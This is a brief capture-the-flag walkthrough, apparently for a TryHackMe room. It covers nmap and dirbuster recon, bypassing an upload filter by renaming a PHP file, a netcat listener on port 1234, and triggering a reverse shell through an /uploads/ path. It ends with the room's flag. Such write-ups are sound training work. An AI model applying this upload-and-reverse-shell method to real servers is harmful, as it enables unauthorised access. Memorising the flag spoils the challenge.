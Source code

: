 1. Recon
   - `nmap -sC -sV -A -vv <target-ip>`
  
   - found two open ports: 22 & 80

2. Scan website directories with dirbuster
   - dirbuster -l /path/to/wordlist/file/wordlist.txt http://<target-ip>

Discovered info:
 - /panel/ path which lets you upload files(possible reverse shell code execution vector)
 - /uploads/ path which lets you see and execute uploaded files (reverse shell 100%)

3. Deliver the reverse shell
   - the website doesnt allow for .php uploads, so i changed it to php7 [ref: https://book.hacktricks.xyz/pentesting-web/file-upload]
   - used nc to listen on port 1234 so that when i execute the shell, i'll gain access to the target machine
     - `nc -lvnp 1234`
   - make sure to change file permissions to 755 so that it can be executed
   - change the script's ip to your machine's ip and port to whatever you want to listen 
   - to execute the reverse shell, just access the file via browser (ex: http://10.10.109.71/uploads/php-reverse-shell.php5)


4. Inside the target machine
   - since we already user.txt is the file we are looking for, we will try to find it in the whole system with the `find` command:
     - `find / -type f -name user.txt 2> /dev/null`
     - /var/www/user.txt < is the path to the file we are looking for, and inside it is the flag
     - THM{y0u_g0t_a_sh3ll}

